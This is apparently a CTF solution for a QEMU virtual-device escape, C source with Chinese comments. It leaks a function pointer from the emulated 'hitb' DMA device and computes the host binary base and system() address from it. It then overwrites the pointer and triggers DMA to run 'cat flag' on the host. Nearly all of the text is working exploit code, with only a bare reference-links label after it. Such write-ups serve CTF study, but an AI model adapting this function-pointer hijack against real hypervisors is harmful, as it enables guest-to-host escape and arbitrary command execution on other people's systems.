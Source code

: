 ```
 
void dma_enc_read(uint64_t offset, uint64_t  cnt)
{
    // 设置dma_buf的索引
    set_src(DMA_BASE + offset);
    // 设置读取后要写入的物理地址
    set_dst(tmpbuf_phys_addr);
    // 设置读取的大小
    set_cnt(cnt);
    // 触发hitb_dma_timer
    start_dma_timer(1|2|4);
    // 等待上面的执行完
    sleep(1);
}
 
int main(int argc, char const *argv[])
{
    getMMIOBase();
    printf("mmio_base Resource0Base: %p\n", mmio_base);
 
    tmpbuf = malloc(0x1000);
    tmpbuf_phys_addr = gva_to_gpa(tmpbuf);
    printf("gva_to_gpa tmpbuf_phys_addr %p\n", (void*)tmpbuf_phys_addr);
 
 
    printf("tmpbuf: %p\n", tmpbuf);
    printf("&tmpbuf: %p\n", &tmpbuf);
 
    // 将enc函数指针写到tmpbuf_phys_addr,之后通过tmpbuf读出即可
    dma_read(4096, 8);
    uint64_t hitb_enc_addr = *((uint64_t*)tmpbuf);
    uint64_t binary_base_addr = hitb_enc_addr - 0x283DD0;
    uint64_t system_addr = binary_base_addr + 0x1FDB18;
    printf("hitb_enc_addr: 0x%lx\n", hitb_enc_addr);
    printf("binary_base_addr: 0x%lx\n", binary_base_addr);
    printf("system_addr: 0x%lx\n", system_addr);
 
    // 覆盖enc函数指针为system地址
    dma_write_qword(4096, system_addr);
    char* command = "cat flag";
    dma_write(0x200, command, strlen(command));
 
    // 触发hitb_dma_timer中的enc函数,从而调用syetem
    dma_enc_read(0x200, 666);
 
    return 0;
} 
```

参考链接:
